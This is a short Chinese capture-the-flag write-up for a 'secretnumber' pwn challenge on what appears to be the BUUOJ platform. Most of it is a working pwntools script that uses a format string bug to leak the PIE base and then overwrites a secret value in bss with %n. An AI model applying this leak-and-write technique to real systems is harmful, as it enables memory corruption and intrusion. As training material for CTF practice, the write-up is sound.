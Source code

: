 # W2 secretnumber

## 文件分析

下载`secretnumber`, 保护全开  
ghidra分析为64位程序

## 解题思路

输入1后可以触发格式化字符串漏洞，由于secret数字放在bss上，所以可以先获得地址，
在写入小数字覆盖，然后输入非1数字进入猜数字环节，输入覆盖的数字即可

## EXPLOIT

```python
from pwn import *
sh = remote('node4.buuoj.cn', 29392)

# payload 1
sh.sendline(b'1')
sh.sendlineafter(b'it', b'%17$p') # locate main to get pieBase

sh.recvuntil(b'gift:\n')
pieBase = int(sh.recvline()[:14], 16) - 0x12f5
secretAddr = pieBase + 0x404c

sh.sendline(b'1')
sh.sendlineafter(b'it', b'pad_%9$n' + p64(secretAddr)) # arg8: pad_%9$n, arg9: secretAddr

sh.sendlineafter(b'/1)', b'0')
sh.sendlineafter(b'number', b'4')
sh.interactive()
```

Done.
